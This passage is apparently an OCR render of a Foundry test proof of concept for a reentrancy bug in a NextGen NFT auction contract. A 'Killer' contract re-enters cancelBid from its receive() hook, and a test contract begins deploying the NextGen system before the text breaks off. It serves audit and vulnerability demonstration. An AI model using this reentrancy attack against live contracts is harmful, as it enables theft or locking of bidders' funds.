 ```js
interface IAuctionDemo {
    function cancelBid(uint256 _tokenid, uint256 index) external;
}

contract Killer {
    IAuctionDemo auctionDemoContract;
    uint256 _counter;

    constructor(address _auctionDemo) payable {
        auctionDemoContract = IAuctionDemo(_auctionDemo);
    }

    receive() external payable {
        _counter++;
        if (_counter == 1) {
            auctionDemoContract.cancelBid(10000000000, 1);
        }
    }
}

contract t0x1cBidLoser is Test {
    address public highestBidder;
    address public aliceBidder;
    address public trustedAccount;
    bytes32 public merkleRoot_msgSender;
    bytes32[] public _merkleProof_msgSender;
    string[] public _collectionScript;

    DelegationManagementContract hhDelegation;
    randomPool hhRandoms;
    NextGenAdmins hhAdmin;
    NextGenCore hhCore;
    NextGenRandomizerNXT hhRandomizer;
    NextGenMinterContract hhMinter;
    auctionDemo hhAuctionDemo;

    Killer contractKiller;

    function setUp() public {
        highestBidder = makeAddr("highestBidder");
        aliceBidder = makeAddr("aliceBidder");
        trustedAccount = makeAddr("trustedAccount");
        merkleRoot_msgSender =
            0x208fae20dc5074374a223a1a825bfc23fbf2c9c88f5b092fa3421d54058170d3; // gives max allowance of 19 tokens in phase1
        _merkleProof_msgSender = new bytes32[](1);
        _merkleProof_msgSender[0] =
            0x9200f00000000000000000000000000000000000000000000000000000000001;

        hhDelegation = new DelegationManagementContract();
        hhRandoms = new randomPool();
        hhAdmin = new NextGenAdmins();
        hhCore = new NextGenCore("Next Gen Core", "NEXTGEN", address(hhAdmin));

        // This example uses the NXT Randomizer
        hhRandomizer =
        new NextGenRandomizerNXT(address(hhRandoms), address(hhAdmin), address(hhCore));

        hhMinter =
        new NextGenMinterContract(address(hhCore), address(hhDelegation), address(hhAdmin));
        hhAuctionDemo =
            new auctionDemo(address(hhMinter), address(hhCore), address(hhAdmin));

```